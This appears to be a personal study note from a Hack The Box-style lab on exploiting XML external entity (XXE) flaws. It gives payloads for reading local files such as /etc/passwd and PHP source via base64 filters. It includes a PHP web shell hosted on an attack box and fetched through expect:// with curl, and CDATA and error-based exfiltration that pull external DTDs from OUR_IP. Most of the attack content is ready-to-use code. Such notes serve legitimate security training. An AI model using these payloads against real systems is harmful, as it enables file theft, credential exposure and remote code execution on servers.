 # Exploiting XXE

### Local File Disclosure&#x20;

This can be achieved when the web application accepts unfiltered XML input from a user. The user could potentially reference an external DTD document and define malicious XML entities. We can make these reference a local file, which would be displayed on screen when it is referenced if the XML data is used to display data on screen.

#### Identify/Detect:&#x20;

1. Look for web pages that accept XML input, by intercepting requests with burp suite.&#x20;
2. Check to see if content from the XML input is being displayed on screen anywhere. Note which XML element is being displayed, so we can know which element to inject in to.&#x20;
3. Attempt to define a new entity and then use as a variable in the email element, to see if it gets replaced with the defined value.&#x20;
   1. ```
      <!DOCTYPE email [
        <!ENTITY company "Inlane Freight">
      ]>
      ```
4. Attempt to use the newly defined variable in the input and see if it is displayed on screen.
   1.

       <figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
5. This would confirm that the application is vulnerable.&#x20;
6. Then we can test for file disclosure:&#x20;
   1.  ```
       <!DOCTYPE email [
         <!ENTITY company SYSTEM "file:///etc/passwd">
       ]>
       ```


   2.

       <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Reading Source Code

If possible, we should always attempt to gain access to the source code as this can allow us to discover more vulnerabilities in the application.

_**Important Note:**_ XML special characters in the file break the external entity reference, so if the file contains of of these: (<, >, &) we might need to use wrappers to access them. PHP has wrappers that will allow us to base64 encode the output, getting around the limitation.&#x20;

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```



### Remote Code Execution w/ XXE

You may be able to find an SSH key, or use a hash-stealing method on a windows server by making a call to our web server and catching the response with responder or smb server. If the application is running off of PHP, we may be able to execute command through PHP filters.&#x20;

Host a web shell on your attack box:&#x20;

```
Adam-162@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
Adam-162@htb[/htb]$ sudo python3 -m http.server 80
```

Then call it:&#x20;

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

<sup>Note: We replaced all spaces in the above XML code with</sup> <sup></sup><sup>`$IFS`</sup><sup>, to avoid breaking the XML syntax. Furthermore, many other characters like</sup> <sup></sup><sup>`|`</sup><sup>,</sup> <sup></sup><sup>`>`</sup><sup>, and</sup> <sup></sup><sup>`{`</sup> <sup></sup><sup>may break the code, so we should avoid using them.</sup>

In modern versions of PHP, the expect module is not installed or enabled by default.&#x20;

### SSRF via XXE

SSRF (Server Side Request Forgery) can be used to enumerate local ports, access thier pages, access restricted web pages, etc.&#x20;

### Data exfiltration with CDATA

This method can be used for any web application architecture, not just PHP. we wrap the external file reference in the CDATA tag, which the XML parser considers raw data.&#x20;

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

This would not work out of the gate because we are mixing internal and external references per XML specifications. we can bypass this limitation using XML parameter entities. when this is used from an external source (i.e your attack box) it considers them all an external source and can be joined.&#x20;

```
Adam-162@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
Adam-162@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

This can come in handy when basic XXE doesnt work or with different web applicaiton frameworks.&#x20;

### Error Based XXE (blind)

This method is helpful when the web app does not write any output to the webpage, but the web application does display runtime errors on the page. We can send a malformed XML request and check for returned errors. we can reference a non existent entity or put a typo into the XML tags:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Similar to the CDATA exfiltration, we host a DTD with our payload. the payload is joining the nonExistingEntity with the target file, which would be merged and shown on the error page.&#x20;

DTD Payload, hosted on the attack box:

```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Payload in the request to server:&#x20;

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```


